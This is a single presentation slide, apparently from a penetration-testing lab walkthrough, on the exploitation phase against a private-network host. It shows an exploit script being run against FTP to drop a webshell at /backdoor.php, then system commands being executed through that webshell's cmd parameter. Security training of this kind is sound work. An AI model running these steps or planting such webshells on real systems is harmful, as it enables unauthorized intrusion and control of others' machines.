

# Exploitation Phase
After download the exploit, follow the steps to exploit the machine –
Go the folder of exploit
Run the exploit
./exploit.py --host 192.168.31.30 --port 21 --path "/var/www/html“
After that we can see a webshell is created at /backdoor.php location
Go to the page - http://192.168.31.30/backdoor.php
Execute command by following
http://192.168.31.30/backdoor.php?cmd=whoami